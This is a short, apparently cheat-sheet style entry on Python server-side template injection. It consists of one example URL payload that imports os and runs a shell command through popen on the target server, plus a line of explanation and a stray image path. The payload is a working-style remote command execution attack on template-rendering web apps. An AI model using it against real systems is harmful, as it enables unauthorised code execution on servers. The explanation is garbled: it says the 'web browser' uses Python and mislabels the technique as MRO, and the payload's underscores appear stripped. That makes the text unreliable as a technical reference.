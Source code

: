 # Server Side Template Injection

### MRO - Python

Below is using Method Resolution Order (MRO) as the web browser in this case uses Python

```
http://URL/{{request.application.globals.builtins.import('os').popen('ls -l').read()}}
```
